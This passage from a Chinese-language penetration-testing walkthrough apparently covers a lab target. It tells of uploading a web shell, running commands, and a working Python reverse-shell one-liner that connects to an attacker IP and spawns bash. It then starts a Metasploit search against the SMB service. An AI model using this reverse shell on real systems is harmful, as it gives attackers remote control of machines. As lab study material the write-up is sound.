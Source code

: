 打开看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200981.png" alt="image-20240202174623639" style="zoom:50%;" />

已经传上去了，尝试传一个命令看看能不能执行：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200982.png" alt="image-20240202174954404" style="zoom:50%;" />

这里我尝试进行蚁剑连接的时候，却又不行。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200983.png" alt="image-20240202175624837" style="zoom: 33%;" />

应该是被拦截了，受不了啦，看来只能反弹shell啦：

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.244.133",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200984.png" alt="image-20240202180133063" style="zoom:50%;" />

同样获取了shell！

### SMB模板加载漏洞

这里发现打开了`139`端口的`SMB服务`，这个端口是一个高危端口，它是永痕之蓝的常用端口之一，尝试利用搜集到的漏洞攻击此端口的服务：

```css
┌──(kali㉿kali)-[~/temp]
└─$ msfconsole                   
Metasploit tip: Use the edit command to open the currently active module 
in your editor
                                                  
 ______________________________________
/ it looks like you're trying to run a \
\ module                               /
 --------------------------------------
 \
  \
     __
    /  \
    |  |
    @  @
    |  |
    || |/
    || ||
    |\_/|
    \___/


       =[ metasploit v6.3.51-dev                          ]
+ -- --=[ 2384 exploits - 1232 auxiliary - 418 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
```